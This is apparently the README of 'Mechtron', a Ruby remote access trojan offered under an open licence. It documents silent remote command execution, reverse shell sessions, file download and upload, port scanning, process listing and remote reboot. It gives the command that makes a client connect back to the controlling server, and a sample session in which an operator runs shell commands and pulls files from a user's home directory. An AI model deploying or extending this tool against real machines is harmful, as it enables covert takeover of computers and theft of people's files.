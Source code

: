 # Mechtron
Mechtron is a RAT that gives the server full remote access to the client machine. You can execute remote commands silently on the client machine. The server also has the ability to upload and download files from the client machine. Besides these commands, there are a few sugar commands.

The client software is distributed using the Mechtron application, but by supplying an argument with the server's IP address.

```
./mechtron -c 127.0.0.1
```

The server is ran using one argument.
```
./mechtron -s
```

Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now, you'll have to deal with the source folders.

## Useful Tips
- You can aim a Mechtron client at a Mechtron server that doesn't exist yet.
- A torified shell will interfere with Mechtron.
- You can use a client's ID anywhere you can use an IP address and vice versa.
- A client will have a new ID number assigned to it when it reconnects.
- The ID number is to the left of the IP address.

## Commands
<table>
    <tr>
        <th>Commands</th>
        <th>Description</th>
    </tr>
    <tr>
        <td>clients</td>
        <td>Get a list of the connected machines</td>
    </tr>
    <tr>
        <td nowrap>session IP</td>
        <td>Use session with an IP address to start a reverse shell session. Enter "exit" to stop</td>
    </tr>
    <tr>
        <td nowrap>get IP FILE FORMAT</td>
        <td>Use get with an IP address followed by a file path and a format to download files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>put IP FILE FORMAT</td>
        <td>Use put with an IP address followed by a file path and a format to upload files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>scan IP</td>
        <td>Scan all TCP ports on the client machine</td>
    </tr>
    <tr>
        <td nowrap>latency IP</td>
        <td>Get the speed of the connection for a client machine in milliseconds.</td>
    </tr>
    <tr>
        <td nowrap>programs IP</td>
        <td>Get a list of the running programs on a client machine.</td>
    </tr>
    <tr>
        <td nowrap>uptime IP</td>
        <td>Returns how long the client has been connected in minutes.</td>
    </tr>
    <tr>
        <td nowrap>reboot IP</td>
        <td>Reboots the client machine.</td>
    </tr>
    <tr>
        <td>help</td>
        <td>shows the HELP menu</td>
    </tr>
    <tr>
        <td>exit</td>
        <td>Closes Mechtron application</td>
    </tr>
</table>

## Instructions
  <table>
    <tr>
      <th>Program Parameters</th>
      <th>Description</th>
    </tr>
    <tr>
      <td>-s</td>
      <td>Server mode</td>
    </tr>
    <tr>
      <td>-c IP</td>
      <td>Client mode. This parameter requires an IP address</td>
    </tr>
  </table>

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
version 1
Useful tip: You can use the client ID in place of the IP!
  __  __ ______ _____ _    _ _______ _____   ____  _   _ 
 |  \/  |  ____/ ____| |  | |__   __|  __ \ / __ \| \ | |
 | \  / | |__ | |    | |__| |  | |  | |__) | |  | |  \| |
 | |\/| |  __|| |    |  __  |  | |  |  _  /| |  | | . ` |
 | |  | | |___| |____| |  | |  | |  | | \ \| |__| | |\  |
 |_|  |_|______\_____|_|  |_|  |_|  |_|  \_\\____/|_| \_|
By Evil Threads

[0] 127.0.0.1 chrisbasinger Linux joined
session 0
session started with [0] 127.0.0.1 chrisbasinger Linux
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 0 /home/chrisbasinger/script.sh text
download finished
get 0 /home/chrisbasinger/picture.jpg binary
download finished
put 0 /home/chrisbasinger/file.txt text
upload finished
put 0 /home/chrisbasinger/spreadsheet.xlsx binary
upload finished
scan 0
111 open
631 open
2049 open
4444 open
scan finished
latency 0
0.00022492 milliseconds
clients
+------------------------------------------+
|                 CLIENTS                  |
+----+------------+----------------+-------+
| ID | IP ADDRESS | NAME           | OS    |
+----+------------+----------------+-------+
| 0  | 127.0.0.1  | gazelle-laptop | Linux |
+----+------------+----------------+-------+
[1] 192.168.1.219 chris Linux joined
programs 1

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0         32 K
Registry                        92 Services                   0     20,628 K
smss.exe                       324 Services                   0        268 K
csrss.exe                      424 Services                   0      2,268 K
wininit.exe                    500 Services                   0        660 K
csrss.exe                      512 Console                    1      2,592 K
winlogon.exe                   596 Console                    1      3,228 K
services.exe                   616 Services                   0      6,212 K

uptime 0
1.7 minutes
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```

## License
```
Copyright 2023 Chris Basinger

Licensed under the Apache License, Version 2.0(the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

```
